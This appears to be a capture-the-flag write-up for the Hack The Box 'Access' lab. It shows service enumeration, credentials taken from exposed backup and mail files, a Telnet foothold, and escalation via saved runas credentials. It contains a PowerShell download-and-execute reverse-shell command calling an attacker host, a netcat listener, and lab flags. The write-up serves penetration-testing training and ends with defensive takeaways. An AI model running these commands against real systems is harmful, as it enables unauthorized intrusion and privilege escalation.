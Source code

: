 # HTB: Access

## Engagement Overview

**Target:** Access
**Box IP:** 10.10.10.98
**Date:** 2025-09-16
**Attacker Host:** 10.10.14.3

---

### Objectives

- Enumerate services and discover exposed files.  
- Extract credentials from backups/mail archives.  
- Gain initial foothold via Telnet.  
- Escalate to Administrator using misconfigured runas/savecred.  
- Capture `user.txt` and `root.txt`.  

---

## Service Enumeration

### Nmap

```bash
sudo nmap -sC -sV -T5 -oN logs/nmap 10.10.10.98
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
23/tcp open  telnet  Microsoft Telnet
80/tcp open  http    Microsoft IIS httpd 7.5
```

### Web/FTP Discovery

- FTP anonymous access allowed.  
- Retrieved files:  
  - `Backups/backup.mdb`  
  - `Engineer/Access Control.zip` → contained `Access Control.pst`.  

```bash
# Mirror
wget -m ftp://anonymous:anonymous@10.10.10.98
```

---

## Initial Access

### Credential Extraction

From `backup.mdb` (auth_user table):  

- `engineer:access4u@security`  

```bash
# quick string search
strings 10.10.10.98/Backups/backup.mdb | grep -C3 access

admin
engineer
access4u@security

# Alternate method mdbtools (export auth_user)
mdb-tables backup.mdb

# Clean up output to see tables
mdb-tables backup.mdb | tr ' ' '\n' | grep . | while read table; do lines=$(mdb-export backup.mdb $table | wc -l); if [ $lines -gt 1 ]; then echo "$table: $lines"; fi; done
acc_timeseg: 2

# List table data
mdb-export backup.mdb auth_user
```

Password unlocked `Access Control.zip` → contained `Access Control.pst`.  
From PST (email):  

- `security:4Cc3ssC0ntr0ller`  

```bash
# PST -> MBOX
7z x "Access Control.zip"
readpst "Access Control.pst"
less "Access Control.mbox"
```

### Telnet Login

```bash
telnet 10.10.10.98
# login: security
# password: 4Cc3ssC0ntr0ller
```

```cmd
C:\Users\security> whoami
access\security

C:\Users\security> type Desktop\user.txt
cb237095f1d0b24079794fa1a2932c1b
```

---

## Privilege Escalation

### Suspicious LNK

Found `ZKAccess3.5 Security System.lnk` referencing:  

```cmd
runas.exe /user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
```

### Abusing Saved Credentials

Hosted Nishang PowerShell one-liner on attacker machine and executed via runas:  

```powershell
# attacker
nc -lnvp 443

# target
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.3/shell.ps1')"
```

Reverse shell established as Administrator:  

```cmd
PS C:\Users\Administrator\Desktop> type root.txt
bc97e19e6897f692e5272f63e763a3a8
```

---

## House Cleaning

- Removed hosted `shell.ps1` from attacker box.  
- No persistence or artifacts left on target.  

---

## Tools Utilized

- `nmap`, `gobuster`  
- `strings`, `mdbtools`, `readpst`  
- `telnet`, `nc`  
- `runas`, `powershell` (Nishang one-liner)  

---

## Key Takeaways

- Backup and PST files exposed sensitive credentials.  
- Weak service configuration (Telnet, anonymous FTP) enabled easy access.  
- Misconfigured `runas /savecred` allowed privilege escalation.  
- Defensive measures: restrict backup access, remove Telnet, audit saved credentials, monitor PowerShell downloads.  
